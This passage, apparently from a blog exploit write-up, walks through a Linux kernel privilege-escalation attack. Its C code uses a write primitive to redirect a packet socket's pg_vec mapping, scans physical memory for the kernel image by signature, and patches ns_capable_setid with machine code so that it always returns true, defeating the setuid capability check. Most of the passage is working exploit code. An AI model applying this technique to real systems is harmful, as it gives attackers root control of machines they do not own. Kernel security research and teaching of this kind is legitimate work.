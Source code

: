 Since we have already identified `page_offset_base` and have a write primitive, we can overwrite the pointer in `pg_vec` to map arbitrary physical memory pages into user space. By scanning the physical memory in steps of `CONFIG_PHYSICAL_ALIGN`, we can search for the decompressed kernel's base address:
```c
puts("[*] Locating the kernel image");
unsigned long addr_kernel_image = addr_page_offset_base + CONFIG_PHYSICAL_START;
while(1) {
    printf("[*] Trying %#lx\n", addr_kernel_image);
    obj_write((char *)&addr_kernel_image, 8);
    unsigned long *magic = mmap(NULL, PAGE_SIZE * block_nr, PROT_READ | PROT_WRITE, MAP_SHARED, sockfd, 0);
    if (magic != MAP_FAILED && *magic == 0x3f4e258d48f78949) {
        printf("[+] addr_kernel_image = %#lx\n", addr_kernel_image);
        break;
    }
    addr_kernel_image += CONFIG_PHYSICAL_ALIGN;
}
```
`0x3f4e258d48f78949` is the machine code of `startup_64`, which is the entry point of the decompressed kernel:

![startup_64](/assets/img/posts/2025-05-02-5/startup_64.png)

Next, we patch `ns_capable_setid` used in the checks in `__sys_setresuid`, to always return `true`:
```c
// https://elixir.bootlin.com/linux/v6.13/source/kernel/sys.c#L713-L715
long __sys_setresuid(uid_t ruid, uid_t euid, uid_t suid)
{
    ...
        if ((ruid_new || euid_new || suid_new) &&
        !ns_capable_setid(old->user_ns, CAP_SETUID))
        return -EPERM;
```
```c
unsigned long addr_ns_capable_setid = addr_kernel_image + 0x7ee50;
unsigned long addr_victim_page = addr_ns_capable_setid & (~0xfff);
printf("[+] addr_ns_capable_setid = %#lx\n", addr_ns_capable_setid);
printf("[*] Mapping %#lx to the user space\n", addr_victim_page);
obj_write((char *)&addr_victim_page, 8);
char *victim_page = mmap(NULL, PAGE_SIZE * block_nr, PROT_READ | PROT_WRITE, MAP_SHARED, sockfd, 0);
assert(victim_page != MAP_FAILED);

puts("[*] Overwitting ns_capable_setid");
char payload[] = {
    0xf3, 0x0f, 0x1e, 0xfa,                     // endbr64
    0x48, 0xc7, 0xc0, 0x01, 0x00, 0x00, 0x00,   // mov rax, 1
    0xc3                                        // ret
};
memset(victim_page, '\x90', 0xe50);
memcpy(victim_page + 0xe50, payload, sizeof(payload));
```
By running this exploit, we can confirm that `ns_capable_setid` has been overwritten:
